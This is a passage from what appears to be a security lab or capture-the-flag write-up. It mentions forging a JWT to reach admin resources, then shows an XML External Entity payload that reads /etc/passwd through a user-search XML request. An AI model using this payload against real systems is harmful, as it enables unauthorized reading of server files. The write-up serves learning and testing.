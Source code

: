 ![Become admin with jwt](../.res/2024-01-14-09-07-24.png)  

Then we would just have to use this new generated token to access admin resources.

## XML External Entity Injection (XXE)

When playing with the user search we had an XML Content. So this is definitely the place to check for XXE.  
Let's try to insert these lines at the top

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Then we can use this `&xxe;` in the usernames tags to print the file we need (here the passwd).

And it works we get the passwd file of the server.  
